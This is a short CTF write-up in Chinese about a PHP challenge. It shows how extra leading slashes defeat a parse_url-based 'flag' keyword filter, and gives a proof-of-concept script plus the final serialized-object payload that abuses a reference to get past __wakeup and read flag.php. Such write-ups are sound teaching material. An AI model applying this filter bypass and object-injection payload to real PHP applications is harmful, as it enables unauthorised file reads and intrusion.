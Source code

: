 ```php
if(isset($payload)){  
    $url = parse_url($_SERVER['REQUEST_URI']);
    parse_str($url['query'],$query);
    foreach($query as $value){
        if (preg_match("/flag/",$value)) { 
         die('stop hacking!');
         exit();
```
此时还需要绕过`?payload=`不能出现flag,但是flag在`flag.php`中，在url多加斜杠即可,`///index.php?`此时PHP便不会解析成功了。
最终PHP的Poc如下:

```php
<?php
class Handle{ 
    private $handle;  
    public function __wakeup(){
foreach(get_object_vars($this) as $k => $v) {
            $this->$k = null;
        }
        echo "Waking up\n";
    }
public function __construct($handle) { 
        $this->handle = $handle; 
    } 
public function __destruct(){
	$this->handle->getFlag();
}
}
class Flag{
	public $file;
    public $token;
    public $token_flag;

    function __construct($file){
$this->file = $file;
$this->token_flag = &$this->token;
}
}
	
$o = new Flag('flag.php');
$oo = new Handle($o);
$ser = serialize($oo);

print $ser;
?>
```
最终payload:
`///index.php?file=hint.php&payload=O:6:"Handle":2:{s:14:"%00Handle%00handle";O:4:"Flag":3:{s:4:"file";s:8:"flag.php";s:5:"token";N;s:10:"token_flag";R:4;}}`

注意Handle有私有变量，应该加上`%00`
